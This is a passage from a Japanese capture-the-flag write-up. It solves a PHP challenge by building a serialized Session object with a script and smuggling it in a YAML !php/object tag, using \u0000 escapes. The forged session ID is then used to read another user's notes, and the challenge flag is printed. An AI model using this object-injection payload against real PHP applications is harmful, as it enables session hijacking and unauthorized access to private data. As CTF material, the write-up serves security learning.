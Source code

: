 この null を普通にエスケープしようとしても、`yaml()` によって消されてしまいます。  
何とかならないか [YAML のエスケープの仕様](http://www.yaml.org/spec/1.2/spec.html#id2776092)を読んでみたところ、`\uXXXX` という方法を見つけました。

さっき書いた攻撃コードを修正して、もう一度攻撃してみます。

```
$ cat payload.php
<?php
class Db {}
class Session {
  public $id;
  public $db;
  private $_param = array();
  function __construct($id, $user_id) {
    $this->id = $id;
    $this->db = new Db();
    $this->_param['userId'] = $user_id;
  }
}
function f($s) {
  return str_replace("\0", '\u0000', str_replace('"', '\\"', $s));
}
echo 'title: !php/object "' . f(serialize(new Session('session-id-dayo', 'yamato'))) . '"' . "\nbody: body\n";
$ php payload.php > payload.yaml
```

できた `YAML` ファイルをアップロードすると、タイトルに何も書かれていないノートが作成されました。  
クッキーの `PHPSESSID` を `session-id-dayo` に変えると、`yamato` さんのノートをのぞき見ることができました。

```
flag: pHp_0bj3c7_15_50_5w3333333E337_4nD_y4mL_700
```

---

ちなみに、この解法は想定解ではないそうです…(´・ω・`)  
想定解やほかの解法については [mage さんの資料](http://slides.ohcihsiek.jp/ymt-ctf-writeup#35)をご覧ください。

### 参考
- [PHPのunserialize関数に外部由来の値を処理させると脆弱性の原因になる \| 徳丸浩の日記](http://blog.tokumaru.org/2015/07/phpunserialize.html)
- [PHP unserialize()が__destruct()を実行する？ - Shin x blog](http://www.1x1.jp/blog/2010/11/php_unserialize_do_not_call_destruct.html)
- ["PHPにおけるオブジェクトインジェクション脆弱性について ? A Day in Serenity (Reloaded) ? PHP, FuelPHP, Linux or something](http://blog.a-way-out.net/blog/2014/07/22/php-object-injection/)
